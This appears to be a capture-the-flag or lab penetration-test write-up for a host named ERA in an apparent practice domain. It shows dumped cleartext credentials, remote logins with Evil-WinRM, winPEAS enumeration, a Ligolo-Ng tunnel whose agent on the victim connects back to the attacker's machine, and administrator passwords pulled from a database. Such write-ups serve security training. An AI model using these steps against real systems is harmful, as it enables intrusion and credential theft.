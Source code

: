 				credman :
				 [00000000]
				 * Username : apache
				 * Domain   : era.secura.local
				 * Password : New2Era4.!
				cloudap :
		```
- Found credentials for ERA (192.168.197.96)
# 192.168.197.96 (ERA)
## Initial Access
- Evil-WinRM into machine with found apache credentials
![[Pasted image 20250208114631.png]]
## Enumeration
- Upload and run winPEASx64.exe
	- ???
- Found passwords:
	![[Pasted image 20250208120246.png]]
	- mysql user: root (no password!)
- Cannot access mysql locally via CLI, need to tunnel to the machine to access
## Tunneling via Ligolo-Ng
- Use Ligolo-Ng
	- Setup Proxy on Kali Machine
	```shell
	# Prep Ligolo's tunnel interface
	kali@kali:~$ sudo ip tuntap add user kali mode tun ligolo
	kali@kali:~$ sudo ip link set ligolo up

	# Start Ligolo proxy on Kali
	kali@kali:~$ ./linux_amd64-proxy -selfcert -laddr 0.0.0.0:443

	# Transfer Ligolo Agent and run on victim
	C:\xampp> .\win64-agent.exe -connect 192.168.45.221:443 -ignore-cert

	# Add the route to ligolo
	kali@kali:~$ sudo ip route add 192.168.197.96/32 dev ligolo # OR
	kali@kali:~$ sudo ip route add 240.0.0.1/32 dev ligolo

	# Connection Established, Start tunnel
	ligolo-ng>> session # Select the session with victim
	ligolo-ng>> start # Start tunnel
	```
- Now with the tunnel set up, access MariaDB:
	- `mysql -u root -h 240.0.0.1 -P 3306 --skip-ssl`
	- Enumerate the DB (creds DB -> creds TABLE)
		- administrator:Almost4There8.?
		- charlotte:Game2On4.!
## Flags
- Using the administrator credentials, Evil-WinRM into the machine again
	- Get proof.txt in Administrator desktop
	![[Pasted image 20250208130603.png]]